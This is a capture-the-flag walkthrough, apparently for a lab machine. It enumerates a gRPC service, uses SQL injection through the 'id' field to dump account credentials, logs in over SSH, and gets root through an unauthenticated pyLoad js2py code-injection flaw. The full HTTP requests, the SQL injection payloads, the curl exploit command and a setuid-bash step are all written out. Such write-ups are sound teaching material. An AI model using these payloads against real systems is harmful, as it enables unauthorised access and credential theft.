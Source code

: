 ```
Host is up (0.053s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown
```

## Recon


If we connect with nc we can see that response has problem with handshake and i investigate for it..
I also check with firefox and something in unicode appears as output.

Googling 50051 port i say sure it's a gRPC so we can dump the calls with `--describe` mode which show the usage of single class of REMOTE PROCEDURE CALL.

in Github there's basically 3 cool clients that help for the job! 
 
1) [grpc-curl]("https://github.com/xoofx/grpc-curl")
2) [grpcurl]("https://github.com/fullstorydev/grpcurl")
3) [grpcui]("https://github.com/fullstorydev/grpcui") The UI interface client edition :D



### The nice function

```
grpc-curl http://10.129.93.207:50051  --describe SimpleApp                                                                                                                           1 ⨯
// SimpleApp is a service:
service SimpleApp {
  rpc LoginUser ( .LoginUserRequest ) returns ( .LoginUserResponse );
  rpc RegisterUser ( .RegisterUserRequest ) returns ( .RegisterUserResponse );
  rpc getInfo ( .getInfoRequest ) returns ( .getInfoResponse );
}

```

Nice so we can basically Login // Register // and to get //getInfo


```
grpcurl -plaintext -d '{"username":"code","password":"code"}' 10.129.93.207:50051 SimpleApp.RegisterUser
```

response:

```json
{
  "message": "Account created for user code!"
}
```

Now we can login with LoginUser function .. what is interesting here and that we have a responde with an id=rand_int e un token .




```http
POST /invoke/SimpleApp.LoginUser HTTP/1.1
Host: 127.0.0.1:38235
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:38235/
Content-Type: application/json
x-grpcui-csrf-token: y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
X-Requested-With: XMLHttpRequest
Content-Length: 62
Origin: http://127.0.0.1:38235
Connection: close
Cookie: _grpcui_csrf_token=y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
DNT: 1
Sec-GPC: 1

{"metadata":[],"data":[{"username":"code","password":"code"}]}
```

response:

```html
HTTP/1.1 200 OK
Content-Type: application/json
Date: Tue, 23 May 2023 14:16:10 GMT
Content-Length: 586
Connection: close

{
  "headers": [
    {
      "name": "content-type",
      "value": "application/grpc"
    },
    {
      "name": "grpc-accept-encoding",
      "value": "identity, deflate, gzip"
    }
  ],
  "error": null,
  "responses": [
    {
      "message": {
        "message": "Your id is 740."
      },
      "isError": false
    }
  ],
  "requests": {
    "total": 1,
    "sent": 1
  },
  "trailers": [
    {
      "name": "token",
      "value": "b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiY29kZSIsImV4cCI6MTY4NDg2MTEyNH0.jZ1skXLcxEXP5oZhYLHGBl7T3OwFsrVBm2IHdvU_igw'"
    }
  ]
}

```

so now we can call getInfo with the provided id and token header



### Q&A 

id = is vulnerbale to sql injection!?? or is it a strange deserialization? 



let's try with sql injection! 


```html
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:33537
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:33537/
Content-Type: application/json
x-grpcui-csrf-token: y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
X-Requested-With: XMLHttpRequest
Content-Length: 223
Origin: http://127.0.0.1:33537
Connection: close
Cookie: _grpcui_csrf_token=y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
DNT: 1
Sec-GPC: 1

{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiY29kZSIsImV4cCI6MTY4NDg2MTQwN30.voWz_2Pf3DfYLnHhLyieZ9rAYVmGK7APBrvMEfcln8U"}],"data":[{"id":"404 Union select sqlite_version();"}]}
```

it works so we know that we are talking with sqlite v 3.31.1


```html
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:33537
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:33537/
Content-Type: application/json
x-grpcui-csrf-token: y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
X-Requested-With: XMLHttpRequest
Content-Length: 273
Origin: http://127.0.0.1:33537
Connection: close
Cookie: _grpcui_csrf_token=y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
DNT: 1
Sec-GPC: 1

{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiY29kZSIsImV4cCI6MTY4NDg2MTQwN30.voWz_2Pf3DfYLnHhLyieZ9rAYVmGK7APBrvMEfcln8U"}],"data":[{"id":"404 union SELECT group_concat(username || \",\" || password || \":\") from accounts;"}]}
```



response


```
{
  "headers": [
    {
      "name": "content-type",
      "value": "application/grpc"
    },
    {
      "name": "grpc-accept-encoding",
      "value": "identity, deflate, gzip"
    }
  ],
  "error": null,
  "responses": [
    {
      "message": {
        "message": "admin,admin:,sau,HereIsYourPassWord1431:"
      },
      "isError": false
    }
  ],
  "requests": {
    "total": 1,
    "sent": 1
  },
  "trailers": []
}
```


## SSH

SSH works with sau : pass


## Privesc 


Found a service in 8000 port hosted by python engine:



so I decided to chisel and try to understand better what's the mechanism of that thing!


with the BIG help of nmap found the version and the possible flows that can lead of some critical stuff.

```
Host is up (0.00036s latency).

PORT     STATE SERVICE VERSION
8000/tcp open  http    CherryPy wsgiserver
|_http-server-header: Cheroot/8.6.0
|_http-favicon: Unknown favicon MD5: 71AAC1BA3CF57C009DA1994F94A2CC89
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http%3A%2F%2Flocalhost%3A8000%2F
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD



```


According with this https://vulners.com/huntr/3FD606F7-83E1-4265-B083-2E1889A05E65 we can attack this service unauthenticated. we can inject arbitrary code abusing `js2py` funtionality due the lack of CSRF protection, a victim can be tricked to execute arbitrary python code.


so we can try to import a payload `pyimport os;os.system("touch /tmp/nice_job");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'`

```
curl -X POST 127.0.0.1:8000/flash/addcrypted2 -d 'jk=pyimport%20os;os.system(%22touch%20/tmp/nice_job%22);f=function%20f2()%7B%7D;&package=xxx&crypted=AAAA&&passwords=aaaa'`
```



the nicest thing is to convert bash  in a suid so and boom we are root! 


`/bin/bash -p`
